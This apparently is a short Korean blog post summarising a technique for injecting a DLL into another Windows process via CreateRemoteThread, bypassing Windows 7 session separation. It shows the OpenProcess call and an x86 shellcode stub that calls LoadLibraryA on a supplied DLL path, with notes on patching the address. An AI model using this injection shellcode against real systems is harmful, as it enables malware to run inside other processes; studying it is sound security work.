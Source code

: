 ```yaml
---
layout: post
title: "CreateRemoteThread. Bypass Windows 7 Session Separation"
date: 2015-04-15 16:51:11 +0900
comments: true
categories: 
---
```


[CreateRemoteThread. Bypass Windows 7 Session Separation](http://syprog.blogspot.kr/2012/05/createremotethread-bypass-windows.html) 을 정리.

##### Opening the Victim Process

Target 에 어태치할때...

```
HANDLE WINAPI OpenProcess(
    DWORD dwDesiredAccess, /* PROCESS_ALL_ACCESS */
    BOOL bInheritHandle, /* FALSE */
    DWORD dwProcessID 
    );
```

#### Reading the Shellcode

``` 
use 32
    ; offset of the LoadLibraryA address within the shellcode
    dd func
    ; save all registers
    push eax ebx ecx edx ebp edi esi
    ; get your EIP
    call next
next:
    pop eax
    mov ebx, eax
    ; get the address of the DLL name
    mov eax, string - next
    ; do this to avoid possible negative values (due to sign extend)
    movzx eax, al
    add eax, ebx
    ; pass it to the LoadLibraryA API
    push eax
    ; get the address of the LoadLibraryA function
    mov eax, func - next
    movzx eax, al
    add eax, ebx
    mov eax, [eax]
    ; call LoadLibraryA
    call eax
    ; restore registers
    pop esi edi ebp edx ecx ebx eax
    ; return
    ret
func dd 0x12345678 ; placeholder for the address
string:
```

메모리에 shellcode 를 넣고, DLL path 를 strcat() 한다. 그리고, `LoadLibraryA()` 어드레스를 채워준다. 채워줄때는 쉘코드 첫 DD 를 참조하여 `func` 의 offset 을 계산한다. 이 작업을 해야 usable 한 shellcode 가 된다.

